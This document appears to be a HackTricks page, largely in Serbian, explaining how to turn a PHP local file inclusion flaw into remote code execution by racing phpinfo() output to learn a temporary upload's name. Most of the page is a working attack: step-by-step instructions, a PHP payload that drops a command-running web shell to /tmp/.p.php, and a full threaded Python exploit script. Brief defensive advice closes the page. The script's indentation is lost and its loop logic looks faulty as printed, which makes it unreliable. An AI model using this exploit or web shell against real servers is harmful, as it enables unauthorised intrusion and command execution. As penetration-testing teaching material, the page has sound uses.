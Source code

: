 # LFI to RCE via PHPInfo

{{#include ../../banners/hacktricks-training.md}}

Da biste iskoristili ovu tehniku, potrebni su vam svi sledeći uslovi:
- Dostupna stranica koja ispisuje izlaz phpinfo().
- A Local File Inclusion (LFI) primitiva koju kontrolišete (npr., include/require na korisnički unos).
- PHP file uploads enabled (file_uploads = On). Bilo koji PHP skript prihvata RFC1867 multipart uploads i kreira privremeni fajl za svaki uploadovani deo.
- PHP worker mora moći da piše u konfigurisani upload_tmp_dir (ili podrazumevani sistemski temp direktorijum) i vaš LFI mora moći da include-uje tu putanju.

Klasični write-up i originalni PoC:
- Whitepaper: LFI with PHPInfo() Assistance (B. Moore, 2011)
- Original PoC script name: phpinfolfi.py (see whitepaper and mirrors)

Tutorial HTB: https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

Beleške o originalnom PoC
- Izlaz phpinfo() je HTML-enkodiran, tako da se strelica "=>" često pojavljuje kao "=&gt;". Ako ponovo koristite legacy skripte, obavezno osigurajte da pretražuju oba enkodiranja pri parsiranju vrednosti _FILES[tmp_name].
- Morate prilagoditi payload (vaš PHP kod), REQ1 (zahtev ka phpinfo() endpointu uključujući padding), i LFIREQ (zahtev ka vašem LFI sinku). Neki ciljevi ne zahtevaju null-byte (%00) terminator i moderne PHP verzije ga neće poštovati. Prilagodite LFIREQ u skladu sa ranjivim sinkom.

Example sed (only if you really use the old Python2 PoC) to match HTML-encoded arrow:
```
sed -i 's/\[tmp_name\] =>/\[tmp_name\] =&gt;/g' phpinfolfi.py
```
{{#file}}
LFI-With-PHPInfo-Assistance.pdf
{{#endfile}}

## Teorija

- Kada PHP primi multipart/form-data POST sa poljem za fajl, upisuje sadržaj u privremeni fajl (upload_tmp_dir ili podrazumevani direktorijum OS-a) i izlaže putanju u $_FILES['<field>']['tmp_name']. Fajl se automatski briše na kraju zahteva osim ako nije pomeren/preimenovan.
- Trik je saznati privremeno ime i uključiti ga preko LFI pre nego što PHP očisti fajl. phpinfo() ispisuje $_FILES, uključujući tmp_name.
- Naduvavanjem zaglavlja/parametara zahteva (padding) možete uzrokovati da se rani delovi izlaza phpinfo() pošalju klijentu pre nego što se zahtev završi, tako da možete pročitati tmp_name dok privremeni fajl još postoji i odmah potom iskoristiti LFI sa tom putanjom.

U Windows-u se privremeni fajlovi obično nalaze negde kao C:\\Windows\\Temp\\php*.tmp. Na Linux/Unix sistemima obično su u /tmp ili u direktorijumu konfigurisanom u upload_tmp_dir.

## Tok napada (korak po korak)

1) Pripremite mali PHP payload koji brzo upisuje shell na disk kako biste izbegli gubitak trke (pisanje fajla je generalno brže nego čekanje na reverse shell):
```
<?php file_put_contents('/tmp/.p.php', '<?php system($_GET["x"]); ?>');
```
2) Pošaljite veliki multipart POST direktno na phpinfo() stranicu tako da ona kreira temp fajl koji sadrži vaš payload. Uvećajte razne headers/cookies/params sa ~5–10KB padding-a da podstaknete raniji output. Uverite se da ime form field-a odgovara onome što ćete parsirati u $_FILES.

3) Dok phpinfo() response još uvek strimuje, parsirajte parcijalno telo da izvučete $_FILES['<field>']['tmp_name'] (HTML-encodirano). Čim imate punu apsolutnu putanju (npr. /tmp/php3Fz9aB), pokrenite svoj LFI da uključi tu putanju. Ako include() izvrši temp fajl pre nego što bude obrisan, vaš payload se izvršava i ostavlja /tmp/.p.php.

4) Iskoristite ostavljeni fajl: GET /vuln.php?include=/tmp/.p.php&x=id (ili gde god vaš LFI dozvoljava uključivanje) da pouzdano izvršavate komande.

> Tips
> - Koristite više concurrent workers da povećate šanse da "pobedite" race.
> - Pozicioniranje padding-a koje obično pomaže: URL parameter, Cookie, User-Agent, Accept-Language, Pragma. Podešavajte po target-u.
> - Ako ranjivi sink dodaje ekstenziju (npr. .php), ne treba vam null byte; include() će izvršiti PHP bez obzira na ekstenziju temp fajla.

## Minimal Python 3 PoC (socket-based)

The snippet below focuses on the critical parts and is easier to adapt than the legacy Python2 script. Customize HOST, PHPSCRIPT (phpinfo endpoint), LFIPATH (path to the LFI sink), and PAYLOAD.
```python
#!/usr/bin/env python3
import re, html, socket, threading

HOST = 'target.local'
PORT = 80
PHPSCRIPT = '/phpinfo.php'
LFIPATH = '/vuln.php?file=%s'  # sprintf-style where %s will be the tmp path
THREADS = 10

PAYLOAD = (
"<?php file_put_contents('/tmp/.p.php', '<?php system($_GET[\\"x\\"]); ?>'); ?>\r\n"
)
BOUND = '---------------------------7dbff1ded0714'
PADDING = 'A' * 6000
REQ1_DATA = (f"{BOUND}\r\n"
f"Content-Disposition: form-data; name=\"f\"; filename=\"a.txt\"\r\n"
f"Content-Type: text/plain\r\n\r\n{PAYLOAD}{BOUND}--\r\n")

REQ1 = (f"POST {PHPSCRIPT}?a={PADDING} HTTP/1.1\r\n"
f"Host: {HOST}\r\nCookie: sid={PADDING}; o={PADDING}\r\n"
f"User-Agent: {PADDING}\r\nAccept-Language: {PADDING}\r\nPragma: {PADDING}\r\n"
f"Content-Type: multipart/form-data; boundary={BOUND}\r\n"
f"Content-Length: {len(REQ1_DATA)}\r\n\r\n{REQ1_DATA}")

LFI = ("GET " + LFIPATH + " HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n")

pat = re.compile(r"\\[tmp_name\\]\\s*=&gt;\\s*([^\\s<]+)")


def race_once():
s1 = socket.socket()
s2 = socket.socket()
s1.connect((HOST, PORT))
s2.connect((HOST, PORT))
s1.sendall(REQ1.encode())
buf = b''
tmp = None
while True:
chunk = s1.recv(4096)
if not chunk:
break
buf += chunk
m = pat.search(html.unescape(buf.decode(errors='ignore')))
if m:
tmp = m.group(1)
break
ok = False
if tmp:
req = (LFI % tmp).encode() % HOST.encode()
s2.sendall(req)
r = s2.recv(4096)
ok = b'.p.php' in r or b'HTTP/1.1 200' in r
s1.close(); s2.close()
return ok

if __name__ == '__main__':
hit = False
def worker():
nonlocal_hit = False
while not hit and not nonlocal_hit:
nonlocal_hit = race_once()
if nonlocal_hit:
print('[+] Won the race, payload dropped as /tmp/.p.php')
exit(0)
ts = [threading.Thread(target=worker) for _ in range(THREADS)]
[t.start() for t in ts]
[t.join() for t in ts]
```
## Rešavanje problema
- You never see tmp_name: Uverite se da zaista šaljete POST multipart/form-data ka phpinfo(). phpinfo() ispisuje $_FILES samo kada je prisutno polje za upload.
- Output doesn’t flush early: Povećajte padding, dodajte više velikih zaglavlja, ili pošaljite više paralelnih zahteva. Neki SAPIs/buferi neće isprazniti izlaz dok se ne dostignu veće granice; prilagodite u skladu s tim.
- LFI path blocked by open_basedir or chroot: Morate usmeriti LFI na dozvoljenu putanju ili preći na drugi LFI2RCE vektor.
- Temp directory not /tmp: phpinfo() ispisuje punu apsolutnu tmp_name putanju; koristite upravo tu putanju u LFI.

## Odbrambene napomene
- Nikada ne izlažite phpinfo() u produkciji. Ako je neophodno, ograničite pristup po IP/auth i uklonite nakon upotrebe.
- Držite file_uploads onemogućenim ako nije potreban. U suprotnom, ograničite upload_tmp_dir na putanju koja nije dostupna include() u aplikaciji i primenite strogu validaciju nad svim include/require putanjama.
- Smatrajte svaki LFI kritičnim; čak i bez phpinfo(), postoje drugi LFI→RCE putevi.

## Related HackTricks techniques

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

{{#ref}}
lfi2rce-via-eternal-waiting.md
{{#endref}}



## References
- LFI With PHPInfo() Assistance whitepaper (2011) – Packet Storm mirror: https://packetstormsecurity.com/files/download/104825/LFI_With_PHPInfo_Assitance.pdf
- PHP Manual – POST method uploads: https://www.php.net/manual/en/features.file-upload.post-method.php
{{#include ../../banners/hacktricks-training.md}}
